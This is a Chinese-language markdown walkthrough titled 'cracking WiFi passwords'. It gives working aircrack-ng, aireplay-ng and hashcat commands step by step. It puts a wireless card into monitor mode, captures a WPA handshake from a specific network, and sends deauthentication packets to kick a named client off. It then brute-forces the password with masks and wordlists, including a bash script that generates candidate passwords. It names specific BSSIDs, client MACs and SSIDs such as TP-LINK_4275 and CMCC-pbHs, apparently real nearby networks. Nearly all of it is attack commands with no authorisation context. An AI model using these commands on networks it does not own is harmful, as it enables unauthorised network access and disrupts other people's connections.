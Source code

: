 # 破解 WIFI 密码

### 0. 查wlan0支持模式中有无监听（monitor）模式

~~`sudo iwconfig wlan0 mode`~~

经实践，此命令不能查(Debian)

### 1. 改成监听模式(改后wlan0就成了wlan0mon)

`sudo airmon-ng start wlan0`

### 2. 查看周围无线信息(也可以指定信道排除想排除的，例如 -c 1，只看信道为1的wifi连接情况;--bssid WIFI的MAC，只看某个WIFI的连接情况。)

`sudo airodump-ng wlan0mon`

记一两组想破解的BSSID（WIFI的MAC）和STATION（已连接的客户端MAC）

现以 `80:8F:1D:83:42:76` 和 `90:AD:F7:FA:8E:10` 为例。

最好也把WIFI名称（SSID）也记下来，例如：TP-LINK_4275，以备后用。

### 3. 模拟抓包(--ivs 包文件的格式为ivs，-c 指定为1信道，-w 指定包文件包为wifipass)

`sudo airodump-ng --ivs -c 1 -w wifipass --bssid 80:8F:1D:83:42:76 wlan0mon`

使用默认的cap包文件格式存档，后期转换待用
`sudo airodump-ng -c 1 -w wifipass --bssid 80:8F:1D:83:42:76 wlan0mon`

此窗口不要关，再开窗口发攻击包，观察这里的右上角，看有无出现 handshake ，出现则是包被抓到，未出现则继续增加攻击包。

### 4. 发攻击包（-0 发99个包，不够再加，赋值为0的话就是一直发）

`sudo aireplay-ng -0 99 -a 80:8F:1D:83:42:76 -c 90:AD:F7:FA:8E:10 wlan0mon`

### 5. 跑密码
两种方式：
1. 用air自带的方式，需要字典文件 dict.txt，比较慢。

    `sudo aircrack-ng wifipass-01.ivs -w dict.txt`

2. 用 hashcat  的方式， -m 2500 就是模式为 WPA

    先用 aircrack-ng 转换包的格式
    
    `sudo aircrack-ng wifipass-01.ivs -J wifipass.hccap`

    再用 hashcat 跑8位的纯数字密码（进度可以按s查看）
    
    `hashcat -m 2500 -a 3 --force wifipass.hccap "?d?d?d?d?d?d?d?d"`

    hashcat 字典模式
    
    `hashcat -m 2500 --force wifipass.hccap dict.txt`

    用 crunch 生成8位和9位的纯数字字典（第1个8为最少8位，第2个9为最多9位）
    
    `crunch 8 9 0123456789 -o dict.txt`

    `hashcat --hash-type 2500 --attack-mode 3 bb.hccapx --increment --increment-min 8 --increment-max 11 --custom-charset1 '?l?d' '?1?1?1?1?1?1?1?1?1?1?1'`

    `hashcat --hash-type 2500 --attack-mode 3 bb.hccapx --increment --increment-min 8 --increment-max 11 '?d?d?d?d?d?d?d?d?d?d?d'`

    https://hashcat.net/cap2hccapx/

### 6. 退出监听模式
`sudo airmon-ng stop wlan0mon`

TP-LINK_4275
80:8F:1D:83:42:76
90:AD:F7:FA:8E:10

### 7. 示例 
监听 `wlan1mon` 信号为 `CMCC-pbHs` 信道为 `11` 无线路由（AP）的MAC为 `AC:5A:EE:D3:FC:C0` 包保存到 `CMCC-pbHs.ivs` 文件

`sudo airodump-ng wlan1mon --essid CMCC-pbHs -c 11 --bssid AC:5A:EE:D3:FC:C0 --ivs -w CMCC-pbHs`


### 8. 用脚本生成字典

`bash ./p3.sh >p.txt`

```bash
$ cat p3.sh
for a in test Test TEST
do
        for b in 13800138000 18901234567 19880808
        do 
                for c in . @
                do
                        echo $a$b$c
                        echo $a$c$b
                        echo $b$c$a
                        echo $b$a$c
                        echo $c$a$b
                        echo $c$b$a
                done
        done
done
```
